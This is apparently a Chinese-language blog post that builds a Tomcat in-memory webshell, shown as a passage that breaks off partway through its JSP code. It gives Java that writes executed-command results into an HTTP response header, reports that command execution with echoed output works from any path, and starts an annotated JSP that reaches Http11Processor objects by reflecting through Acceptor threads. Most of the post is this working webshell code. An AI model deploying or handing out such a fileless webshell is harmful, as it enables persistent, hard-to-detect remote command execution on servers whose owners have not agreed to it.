 显而易见的 `response` 也在 Processor 下面

![image-20230214180509224](https://laughing-markdown-pics.oss-cn-shenzhen.aliyuncs.com/image-20230214180509224.png)

代码如下

```
public void getResponse(byte[] res) throws UnsupportedEncodingException {
    Http11Processor http11Processor = getHttp11Processor();
    // response
    Response response = (Response) getField(http11Processor,"response");
    // 将执行的结果写入response中
    response.addHeader("Execute-result-by-xieyaowei", new String(res, "UTF-8"));
}
```

# 执行成功

成功代码执行并且有回显，访问任意路径也可以成功，多次重启注入尝试命令执行也可以成功，这是一枚合格的内存马了。

![image-20230215105306195](https://laughing-markdown-pics.oss-cn-shenzhen.aliyuncs.com/image-20230215105306195.png)

![image-20230215105013527](https://laughing-markdown-pics.oss-cn-shenzhen.aliyuncs.com/image-20230215105013527.png)

唯一的缺点就是一段时间之后，`Processor` 对象应该会丢失，所以需要重新注入才能命令执行。当然某种程度上来说，这也可以不是缺点。

JSP 代码如下，含具体注释：

```jsp
<%@ page import="org.apache.coyote.Adapter" %>
<%@ page import="org.apache.catalina.connector.Connector" %>
<%@ page import="org.apache.coyote.http11.Http11Processor" %>
<%@ page import="java.util.concurrent.ConcurrentHashMap" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.lang.reflect.Array" %>
<%@ page import="org.apache.catalina.connector.CoyoteAdapter" %>
<%@ page import="org.apache.coyote.Request" %>
<%@ page import="org.apache.coyote.Response" %>
<%@ page import="java.io.UnsupportedEncodingException" %><%--
  Created by IntelliJ IDEA.
  User: xieyaowei
  Date: 2023/2/15
  Time: 10:00
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
//    获取 Http11Processor 对象方法
    public Http11Processor getHttp11Processor() {
        // 获取当前线程的所有线程
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            try {
                // 需要获取线程的特征包含 Acceptor 和 http-nio，必须包括 http-nio，因为可能有 ajp 的 Acceptor
                if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
//                    thread.target.this$0.handler.connections.table[x].val，拿到val属性
                    ConcurrentHashMap connections  = (ConcurrentHashMap) getField(getField(getField(getField(thread, "target"),"this$0"),"handler"),"connections");
//                    拿到内部类对象 ConcurrentHashMap$Node
                    Class node = Class.forName("java.util.concurrent.ConcurrentHashMap$Node");
//                    拿到 table 属性
                    Field table = ConcurrentHashMap.class.getDeclaredField("table");
                    table.setAccessible(true);
```